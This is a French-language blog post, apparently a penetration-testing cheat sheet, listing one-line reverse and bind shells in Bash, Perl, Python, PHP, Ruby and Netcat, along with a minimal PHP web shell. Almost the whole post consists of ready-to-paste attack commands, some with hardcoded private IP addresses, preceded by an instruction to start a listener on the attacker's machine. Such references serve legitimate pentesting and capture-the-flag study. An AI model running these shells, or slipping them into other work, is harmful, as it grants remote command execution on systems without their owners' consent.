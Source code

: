 ```yaml
---
layout: post
title: Oneliner shell - Cheat sheet
subtitle: Simple shells & Reverse shells
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Shell, Reverse shell, Cheat sheet, Python, PHP, Bash, Perl, Ruby, Netcat]
comments: false
---
```


**Créer un shell ou un reverse shell en une ligne de code, c'est faisable. Voici quelques possibilités.**

Remarque: pour les reverse shell commencer par lancer un listener du côté de la machine de l'attaquant:

~~~
nc -nlvp <PORT>
~~~

Autre remarque: L'outil One-Lin3r de D4Vinci [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r) est un bon complément pour créer des payloads sur une ligne :)

# Bash

## Reverse shell 

~~~
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
~~~

~~~
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
~~~

~~~
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
~~~

~~~
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
~~~

# Perl

## Reverse shell

Version dépendante de « /bin/sh » :

~~~
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~

Si le système cible est un Windows (sans fork) :

~~~
perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
~~~

# Python 

## Reverse shell

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

# PHP

## Web shell

~~~
<?php system($_GET['cmd']);?>
~~~

## Reverse shell

~~~
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.127/1234 0>&1'");
php?>
~~~

~~~
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
~~~

# Ruby

## Reverse shell 

One-line dépendante de « /bin/sh » :

~~~
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
~~~

Version pour Windows (sans fork) :

~~~
ruby -rsocket -e "c=TCPSocket.new('<IP>','<PORT>');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
~~~

# Netcat

## Bind shell

~~~
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
~~~

## Reverse shell

~~~
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
~~~

Références:

- Acunetix, Web shells 101, [https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)
- Asafety, Reverse-shell one-liner Cheat Sheet, [https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/)
- Reverse shells, [https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)
- Reverse shells, [https://alamot.github.io/reverse_shells/](https://alamot.github.io/reverse_shells/)


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

